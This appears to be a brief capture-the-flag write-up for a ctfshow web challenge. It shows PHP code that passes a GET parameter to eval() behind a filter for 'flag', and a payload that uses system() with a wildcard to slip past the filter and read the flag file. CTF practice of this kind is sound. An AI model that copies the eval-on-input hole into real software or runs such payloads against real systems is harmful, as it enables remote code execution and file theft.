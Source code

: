 ```yaml
---
{"dg-publish":true,"permalink":"/web/rce/ct-fshow-web-web29/"}
---
```


题目：
```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```
payload：
```php
?c=system('cat fla*');
```